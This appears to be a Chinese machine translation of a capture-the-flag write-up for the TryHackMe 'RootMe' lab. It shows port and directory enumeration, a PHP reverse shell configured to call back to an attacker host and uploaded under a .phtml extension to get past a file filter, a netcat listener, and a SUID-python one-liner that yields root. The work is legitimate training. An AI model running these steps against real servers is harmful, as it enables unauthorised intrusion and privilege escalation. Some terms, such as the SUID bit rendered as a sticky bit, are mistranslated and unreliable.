





# TryHackMe writeup: RootMe

> 原文：<https://infosecwriteups.com/tryhackme-writeup-rootme-7140eeb6b99f?source=collection_archive---------3----------------------->

RootMe[(“ReddyyZ”2020)](https://tryhackme.com/room/rrootme)是一个 TryHackme 房间，面向初学者或希望练习技能的人。这个房间相当简单:它强化了良好的攻击性安全实践，如枚举和“更加努力地尝试”在本文中，我将讨论我获得对目标系统的初始访问和权限提升的过程。


来自[氨基应用(2016)](https://aminoapps.com/c/anime/page/blog/degtop-10-female-katana-usersdeg/K5tM_uPPmo0kxPmL1PZ5PvN7JDqwk) 的一些图像组件

# 目录一览

1.  程序
2.  结束事项
3.  参考

# 程序

[《ReddyyZ》(2020)](https://tryhackme.com/room/rrootme)将房间描述为“*【a】CTF 供初学者使用。*“目标是检索一个与存储在名为`user.txt`的文件中的`root`或`SYSTEM`特权相比具有较低权限的可访问标志，然后运行特权升级利用来访问名为`root.txt`的文件中的标志。有了明确的目标，我就可以着手评估目标系统的漏洞，并获得访问系统的权限。

作为准备，我修改了我的 *AttackBox 的* `/etc/hosts`文件，以包含一个名为`rrootme.thm`的伪域，指向目标系统的动态 IP 地址。然后，我点击这个房间第一个任务右上角的绿色“[s]start[m]machine ”,开始探测系统。

## 探索

我让我的攻击箱的网络浏览器访问`rrootme.thm`,看看系统上是否有网站在运行。图 1 描述了系统的主页，其中有一个相当有趣的挑战:



图 1

我继续使用 [nmap (n.d.)](https://nmap.org/) 探测目标系统上运行的网络服务，也许我可以使用其中一个作为漏洞载体，以获得对目标的初始访问权限:

```
**┌──(dna㉿deniers)-[~/rrootme]
└─$ sudo nmap -sT -A -v -Pn -p- -O -sC -oX tcp_scan.xml --max-scan-delay=5s rrootme.thm** 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at [redacted]
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 13:07
Completed NSE at 13:07, 0.00s elapsed
Initiating NSE at 13:07
Completed NSE at 13:07, 0.00s elapsed
Initiating NSE at 13:07
Completed NSE at 13:07, 0.00s elapsed
Initiating Connect Scan at 13:07
Scanning rrootme.thm [65535 ports]

[... snip ...]
```

当 *nmap* 扫描正在探测目标系统的端口时，我运行了*gobuster*([Mehlmauer et al . n . d .](https://github.com/OJ/gobuster))来查找其 HTTP 服务上潜在的隐藏子目录:

```
**┌──(dna㉿deniers)-[~]
└─$ gobuster dir -u http://rrootme.thm -w ~/rrootme/subdirectories.txt -x php,bak,htm,html -t 40**
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rrootme.thm
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                ~/rrootme
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,bak,htm,html
[+] Timeout:                 10s
===================================================================
[redacted] Starting gobuster in directory enumeration mode
===================================================================

[... snip ...]
```

过了一会儿， *nmap* 和 *gobuster* 扫描都完成了，我能够使用`xsltproc`实用程序(xsltproc n.d .)将来自 *nmap* 扫描的 XML 输出转换成可读的 HTML 格式:

```
**┌──(dna㉿deniers)-[~/rrootme]
└─$ xsltproc tcp_scan.xml -o tcp_scan.html                                             

┌──(dna㉿deniers)-[~/rrootme]
└─$**
```

图 2 描述了 *nmap* 扫描的渲染 HTML 结果:



图 2

只有两(2)个端口可用于进一步探测:一个 [OpenSSH (v. 7.6p1)](https://www.openssh.com/txt/release-7.6) 服务和一个 [Apache HTTP 服务(v. 2.4.29)](https://www.apachelounge.com/Changelog-2.4.html) 。目标系统最有可能运行的操作系统是 Ubuntu(未标明)。Linux。攻击 web 服务可能是阻力最小的途径，因为 web 应用程序确实有一个相当大的攻击面(参见[Yaworski 2019](https://nostarch.com/bughunting)；[Hickey&Arcuri 2020](https://www.wiley.com/en-us/Hands+on+Hacking:+Become+an+Expert+at+Next+Gen+Penetration+Testing+and+Purple+Teaming-p-9781119561453)；[霍夫曼 2020；](https://www.oreilly.com/library/view/web-application-security/9781492053101/) [李 2021](https://nostarch.com/bug-bounty-bootcamp) )。

最终， *gobuster* 实例完成了，我从 web 服务中获得了以下子目录:

```
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 616]
/.htm                 (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://rrootme.thm/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://rrootme.thm/css/]
/js                   (Status: 301) [Size: 307] [--> http://rrootme.thm/js/]
/panel                (Status: 301) [Size: 310] [--> http://rrootme.thm/panel/]
/.php                 (Status: 403) [Size: 276]
/.htm                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
Progress: 1038215 / 1038220 (100.00%)
[redacted] Finished
```

我注意到了`/panel/`和`/uploads/`子目录，我将首先用我的攻击箱的网络浏览器导航到`/panel/`。图 3 描述了浏览器返回的内容:



图 3

我认为这是一种我可以上传文件的机制。我将尝试利用它来上传一个机制，通过它我可以启动一个反向外壳。

## 初始访问

我考虑了我可以上传到网络服务器的不同种类的植入，我决定尝试使用由[“pentest monkey”(n . d .)](https://github.com/pentestmonkey/php-reverse-shell)创建的反向 PHP shell。我将其配置为向我的攻击箱报告:

```
[... snip ...]

set_time_limit (0);
$VERSION = "1.0";
$ip = 'attackbox.thm';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;

[... snip ...]
```

具体来说，我已经重置了变量`$ip`和`$port`，以连接回我在端口 4444 上的*攻击箱*。然后，我试图将这个脚本上传到目标系统的 web 浏览器上。图 3 描述了`/panel/`页面返回的内容:



图 3

我推测这是一个错误信息，说明 PHP 脚本不允许上传到系统上。我使用了 [Google Translate (n.d.)](https://translate.google.com/) 来确认这一点，它检测到葡萄牙语是错误消息的语言，并且它显示“ *PHP 是不允许的！*”

然后，我开始尝试不同的文件扩展名，以通过我认为是过滤不同类型的“坏”文件扩展名的黑名单。为了绕过这一点，我尝试使用`.phtml`扩展，它允许我的`reverse.php`脚本上传到目标系统上；如图 4 所示:


图 4

葡萄牙语消息大致翻译为"*[t]文件已成功上传！*“我现在可以启动反向连接了。



图 4

要启动反向外壳，我需要触发`reverse.phtml`。但在此之前，我将在我的 AttackBox 上设置一个 [netcat (n.d.)](https://netcat.sourceforge.net/) 监听器来监听接受任何反向 shell 请求:

```
**┌──(dna㉿deniers)-[~/rrootme]
└─$ nc -lvnp 4444    **  
listening on [any] 4444 ...
```

触发`reverse.phtml`就像点击它一样简单。这样做向我展示了相反的外壳:

```
listening on [any] 4444 ...
connect to [attacker.thm] from (UNKNOWN) [rrootme.thm] 55952
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 [redacted],  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
**$**
```

我现在可以转储该标志了:

```
**$ find . -name user.txt -print 2>/dev/null**
./var/www/user.txt
**$ cat ./var/www/user.txt**
THM{redacted}
**$**
```

非常好。

## 后剥削

现在我需要得到系统的根标志。我的过程是使用`find`命令探测系统中设置了粘性位标志的二进制文件:

```
**$ find / -type f -perm /4000 -print 2>/dev/null**

[... snip ...]

/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at

[... snip ...]

**$**
```

特别是， [Python (n.d.)](https://www.python.org/) 解释器设置了粘性位。这是好东西，因为可以利用它来获得根壳。以下是我从前述文章中复制的逻辑:

```
**$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**
**# id**
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
**#**
```

现在我可以通过一个`/bin/sh`的`root`实例来执行命令。我现在可以转储根标志了:

```
**# cat /root/root.txt**
THM{redacted}
**#** 
```

阿洛拉。

# 结束事项

这是一个相当简单的房间，可以用来练习基本的攻击性安全工程程序。我首先用端口扫描和子目录枚举来探测系统。然后，我将一个 PHP 脚本上传到目标 web 服务器上，使用一个不常见的文件扩展名来绕过过滤器，并以此为基础启动一个反向 shell。我最终开发了一个 Python 二进制文件，它的粘性位被设置为获得系统的根访问权限——允许我完成我的目标。

主要的收获是实践是一件好事，因为这个房间里的材料是相当初级的。具体来说，渗透测试人员或 red teamer 应该尝试列举获得系统初始访问权限和提升权限的可能方法。

## 插头

对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):

此外，对于任何喜欢阅读我的黑客文章的读者，我邀请他们看看我的技术文章系列，主要由 CTF 的文章组成，但也有其他计算机和 STEM 内容😃


阿列克谢

## 技术报道

[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----7140eeb6b99f--------------------------------)43 stories

# 参考

氨基应用(2016)。*十大女性武士刀使用者*。2022 年 12 月 8 日检索自:[https://amino PPS . com/c/anime/page/blog/deg top-10-female-katana-users deg/K5tM _ uppmo 0 kpml 1 pz 5 PVN 7 jdqwk](https://aminoapps.com/c/anime/page/blog/degtop-10-female-katana-usersdeg/K5tM_uPPmo0kxPmL1PZ5PvN7JDqwk)

Apache HTTP 服务器(2.4.29 版)。*更改日志*。阿帕奇休息室。2022 年 12 月 7 日检索自:[https://www.apachelounge.com/Changelog-2.4.html](https://www.apachelounge.com/Changelog-2.4.html)

谷歌翻译(未注明)。2022 年 12 月 8 日检索自:[https://translate.google.com/](https://translate.google.com/)

GTFOBins(未标明)。 *python* 。2022 年 12 月 8 日检索自:[https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

Hickey，m .和 Arcuri，J. (2020 年)。*动手黑客:成为新一代渗透测试和紫色团队的专家*。约翰·威利的儿子们。

Web 应用安全:现代 Web 应用的开发和对策。奥赖利媒体公司。

李诉(2021)。Bug Bounty Bootcamp:寻找和报告网络漏洞指南。没有淀粉压机。

Mehlmauer 等人(未注明)。*Gobuster v 3 . 2 . 0:Go 中编写的目录/文件、DNS 和 VHost 破坏工具*。GitHub 仓库。2022 年 12 月 7 日检索自:[https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

netcat(未标明)。GNU Netcat 项目。2022 年 12 月 8 日检索自:[https://netcat.sourceforge.net/](https://netcat.sourceforge.net/)

nmap(未标明)。 *Nmap:无网络映射器的安全扫描器*。2022 年 12 月 7 日检索自:[https://nmap.org/](https://nmap.org/)

OpenSSH(7.6p 1 版)。*发行说明*。2022 年 12 月 7 日检索自:[https://www.openssh.com/txt/release-7.6](https://www.openssh.com/txt/release-7.6)

“pentestmonkey”(未注明)。*PHP-反向-shell* 。GitHub 仓库。2022 年 12 月 8 日检索自:【https://github.com/pentestmonkey/php-reverse-shell 

Python(未注明日期)。欢迎来到 Python.org，T4。2022 年 12 月 8 日检索自:[https://www.python.org/](https://www.python.org/)

《ReddyyZ》(2020)。 *RootMe* 。TryHackMe。2022 年 12 月 7 日检索自:[https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

Ubuntu(未注明日期)。*Ubuntu 的故事*。2022 年 12 月 7 日检索自:[https://ubuntu.com/about](https://ubuntu.com/about)

xsltproc(未标明)。 *xsltproc —命令行 xslt 处理器*。2022 年 12 月 7 日检索自:[http://xmlsoft.org/xslt/xsltproc.html](http://xmlsoft.org/xslt/xsltproc.html)

Yaworski，P. (2019)。真实世界的臭虫狩猎:网络黑客的实地指南。没有淀粉压机。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！